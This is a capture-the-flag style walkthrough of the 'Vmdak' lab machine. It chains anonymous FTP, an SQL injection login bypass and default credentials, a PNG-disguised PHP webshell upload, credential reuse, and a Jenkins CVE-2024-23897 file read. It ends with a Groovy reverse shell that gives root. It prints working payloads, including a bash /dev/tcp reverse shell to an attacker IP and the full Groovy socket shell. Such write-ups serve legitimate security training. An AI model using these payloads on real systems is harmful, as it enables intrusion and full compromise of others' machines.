










## Machine Summary

Vmdak focuses mainly on web enumeration and exploitation. We first discover information disclosure on an FTP service, then find a web application on port 9443 with an SQLi vulnerability in its login form. Gaining access to the administration panel exposes another user's credentials stored in a profile description. From there, we exploit a file upload vulnerability via the controlled user's profile picture to land an initial shell.

Enumerating system users allows us to use credential reuse to move laterally and gain SSH access as a local user. We then discover an internal Jenkins instance running on port 8080 and set up an SSH local port forward to reach it. Enumerating Jenkins reveals it is vulnerable to CVE-2024-23897, allowing us to read the initial admin password, log in, and abuse the internal Groovy scripting engine to drop a shell as root.



## Recon
### Nmap Scan
```bash
$ nmap -Pn -v -p- --max-retries 1 --min-rate 1000 192.168.167.103

$ nmap -Pn -n -sV -sC -p 21,22,80,9443 192.168.167.103
```

```bash
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            1752 Sep 19  2024 config.xml
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.45.249
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 76:18:f1:19:6b:29:db:da:3d:f6:7b:ab:f4:b5:63:e0 (ECDSA)
|_  256 cb:d8:d6:ef:82:77:8a:25:32:08:dd:91:96:8d:ab:7d (ED25519)
80/tcp   open  http     Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
9443/tcp open  ssl/http Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_http-title:  Home - Prison Management System
| ssl-cert: Subject: commonName=vmdak.local/organizationName=PrisonManagement/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:vmdak.local
| Not valid before: 2024-08-20T09:21:33
|_Not valid after:  2025-08-20T09:21:33
| tls-alpn:
|_  http/1.1
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The Nmap script scan finds anonymous FTP access, a default Apache install page, and a site on HTTPS port 9443 titled Prison Management System with a DNS hostname of vmdak.local.
### FTP Port 21

Once logged into the FTP service with credentials `ftp:ftp`, we'll see only one file `config.xml`, in the root directory. We can download it for review.
```bash
$ ftp 192.168.167.103
Connected to 192.168.167.103.
220 (vsFTPd 3.0.5)
Name (192.168.167.103:algo): ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            1752 Sep 19  2024 config.xml
226 Directory send OK.
ftp> get config.xml
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for config.xml (1752 bytes).
226 Transfer complete.
1752 bytes received in 0.0003 seconds (5.2678 Mbytes/s)
```

Viewing `config.xml`, we'll see that it's a Jenkins configuration file. This will indicate that there may be other internal services running. We can acknowledge this and proceed.
```xml
<?xml version='1.1' encoding='UTF-8'?>
<hudson>
  <disabledAdministrativeMonitors/>
  <version>2.401.2</version>
  <numExecutors>2</numExecutors>
  <mode>NORMAL</mode>
  <useSecurity>true</useSecurity>
  <authorizationStrategy class="hudson.security.FullControlOnceLoggedInAuthorizationStrategy">
    <denyAnonymousReadAccess>false</denyAnonymousReadAccess>
  </authorizationStrategy>
  <securityRealm class="hudson.security.HudsonPrivateSecurityRealm">
    <disableSignup>true</disableSignup>
    <enableCaptcha>false</enableCaptcha>
  </securityRealm>
  <disableRememberMe>false</disableRememberMe>
  <projectNamingStrategy class="jenkins.model.ProjectNamingStrategy$DefaultProjectNamingStrategy"/>
  <workspaceDir>${JENKINS_HOME}/workspace/${ITEM_FULL_NAME}</workspaceDir>
  <buildsDir>${ITEM_ROOTDIR}/builds</buildsDir>
  <jdks/>
  <viewsTabBar class="hudson.views.DefaultViewsTabBar"/>
  <myViewsTabBar class="hudson.views.DefaultMyViewsTabBar"/>
  <clouds/>
  <InitialRootPassword>/root/.jenkins/secrets/initialAdminPassword></InitialRootPassword>
  <scmCheckoutRetryCount>0</scmCheckoutRetryCount>
  <views>
    <hudson.model.AllView>
      <owner class="hudson" reference="../../.."/>
      <name>all</name>
      <filterExecutors>false</filterExecutors>
      <filterQueue>false</filterQueue>
      <properties class="hudson.model.View$PropertyList"/>
    </hudson.model.AllView>
  </views>
  <primaryView>all</primaryView>
  <slaveAgentPort>-1</slaveAgentPort>
  <label></label>
  <crumbIssuer class="hudson.security.csrf.DefaultCrumbIssuer">
    <excludeClientIPFromCrumb>false</excludeClientIPFromCrumb>
  </crumbIssuer>
  <nodeProperties/>
  <globalNodeProperties/>
  <nodeRenameMigrationNeeded>false</nodeRenameMigrationNeeded>
</hudson>
```

### HTTPS Port 9443

Navigating to `https://192.168.167.103:9443` we will be presented with a `Prison Management System` web app.

## Initial Access - Default Credentials
### SQLi Login Bypass

Doing some google research we'll discover this application has a critical SQLi login bypass vulnerability; [CVE-2024-33288](https://github.com/advisories/GHSA-hrfc-58jm-6fpc).

We can find an entry in Exploit-DB, with short details on the bybass:
- https://www.exploit-db.com/exploits/52017
```txt
# Exploit : Prison Management System Using PHP -SQL Injection Authentication Bypass
# Date: 15/03/2024
# Exploit Author: Sanjay Singh
# Vendor Homepage: https://www.sourcecodester.com
# Software Link:https://www.sourcecodester.com/sql/17287/prison-management-system.html
# Tested on: Windows ,XAMPP
# CVE : CVE-2024-33288


# Proof of Concept:
Step 1-Visit http://localhost/prison/
Step 2 - Click on Admin Dashboard button and redirect on login page.
Step 3 Enter username as admin' or '1'='1 and password as 123456
Step 4 Click sing In and now you will be logged in as admin.
```
### Default Credentials

In this instance we do not need an SQLi bypass to log in. While it does work, the default credentials of `admin:admin123` work as well and can be found here:
- https://www.sourcecodester.com/sql/17287/prison-management-system.html

Using the default credentials we'll be logged in and presented with a Dashboard for the user `Caroline Bassey`.



Browsing the `Leave Management` category on the left will show staff member `Malcom` that has a password saved in the `Reason` column of `RonnyCache001`. We can note of this.

### File Upload RCE
Navigating to `User Management -> Edit Photo` we will see the ability to upload a file in either JPEG of PNG format.


The backend code will reject anything that's not a valid PNG or JPG file, so we will need to bypass that by creating a PHP command shell with the magic bytes for the PNG file type, which will verify to the backend code that our file is a legitimate PNG image.

The frontend will also reject anything that does not have the file extension .jpg, .jpeg, or .png. Modifying the allowed file types with developer tools also fails, but we can intercept the upload request in Burp and modify the file's extension with success.

- Create `shell.png` with the magic byte and out php cmd shell payload:
```bash
echo -e "\x89\x50\x4E\x47\x0D\x0A\x1A\x0A<?php system(\$_GET['cmd']); ?>" > shell.png
```
 - Intercept the request in burp and change `filename="shell.png"` to `shell.php`

### Shell as vmdak

Once the file is uploaded its locations can be easily guessed (/uploadImage/shell.php), we can then test for command execution:


Fire up a listener and execute a url encoded bash reverse shell with curl:
```bash
# Curl command
curl "https://192.168.167.103:9443/uploadImage/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.249/4444%200%3E%261%27%3B" -k
```

Back on our listerner we'll see we get a shell as `www-data`.
```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.204.103 55556
bash: cannot set terminal process group (1151): Inappropriate ioctl for device
bash: no job control in this shell
www-data@vmdak:/var/www/prison/uploadImage$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

When can check `/etc/passwd`, we'll see the only other user that is permitted a login shell is `vmdak`.
```bash
$ cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
vmdak:x:1000:1000::/home/vmdak:/bin/sh
```

We can reuse the password (RonnyCache001) we found earlier from Malcom's profile against the `vmdak` user account and get access.
```bash
www-data@vmdak:/var/www$ su vmdak
Password: RonnyCache001
$ id
uid=1000(vmdak) gid=1000(vmdak) groups=1000(vmdak)
```

Reuse the credentials on the SSH service and get proper tty shell access.
```bash
ssh vmdak@192.168.204.103
```

```bash
$ bash
vmdak@vmdak:~$ id;hostname;ls
uid=1000(vmdak) gid=1000(vmdak) groups=1000(vmdak)
vmdak.local
local.txt
```
## Privilege Escalation - LFI
### Internal Enumeration

From the information disclosure on FTP, we know there may be more internal services running on this system. We can run netstat and check for listening ports.
```bash
netstat -tuln
```

```bash
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:9443            0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
udp        0      0 127.0.0.54:53           0.0.0.0:*
udp        0      0 127.0.0.53:53           0.0.0.0:*                 
```

We see the server listening on port 8080. The default Jenkins installation runs on port 8080 or 8443. So we have our target.

Using a local SSH port forward we can bypass restrictions and gain local access to the service running on port 8080:
```bash
$ ssh -L 5555:localhost:8080 vmdak@192.168.204.103
```
### Jenkins LFI

Navigating to the forwarded port at `http://localhost:5555` leads us to a Jenkins setup page that is secured with an admin password. Similar to the config.xml file we discovered earlier, the setup page indicates that the password can be found in the following file:  `/root/.jenkins/secrets/initialAdminPassword`.


Without root access we will be unable to read the file, so we'll have to do a bit more enumeration. Viewing the page source or using Wappalyzer, we will be able to easily find the Jenkins version, 2.401.2.
```xml
</script></head><body data-model-type="jenkins.install.SetupWizard" id="jenkins" class="yui-skin-sam full-screen jenkins-2.401.2" data-version="2.401.2">
```

Doing some research, we discover that this version has an unauthenticated Local File Inclusion (LFI) vulnerability [CVE-2024-23897](https://nvd.nist.gov/vuln/detail/cve-2024-23897.) This affects versions Jenkins 2.441 and earlier.

Exploit-DB hosts a working LFI PoC for versions of Jenkins < 2.441: 
- https://www.exploit-db.com/exploits/51993

Use exploit against our forwarded address and extract the password from `/root/.jenkins/secrets/initialAdminPassword.
```bash
python 51993.py -u http://localhost:5555 -p /root/.jenkins/secrets/initialAdminPassword

140ef31373034d19a77baa9c6b84a200
```

Once we enter the admin password, we will be prompted to complete the installation process. We can skip most of it, but depending on how pivoted in to gain access, Socks5 with proxychains or port forwarding, at the "Instance Configuration," make sure it's set to `http//localhost:8080`, or you may need to do a machine reset.


### Shell as root

Once we have access we can go to `Manage Jenkins -> Script Console` and execute a groovy script reverse shell payload to gain shell as root.



Payload:
- Change `[LHOST]` and `[LPORT]` to match your enviroment.
```bash
String host="[LHOST]";int port=[LPORT];String cmd="bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Start a listener and run the script, gaining shell as root.
```bash
nc -lvnp 4446
Listening on 0.0.0.0 4446
Connection received on 192.168.167.103 35700

id;hostname;ls /root
uid=0(root) gid=0(root) groups=0(root)
vmdak.local
jenkins.war
proof.txt
```
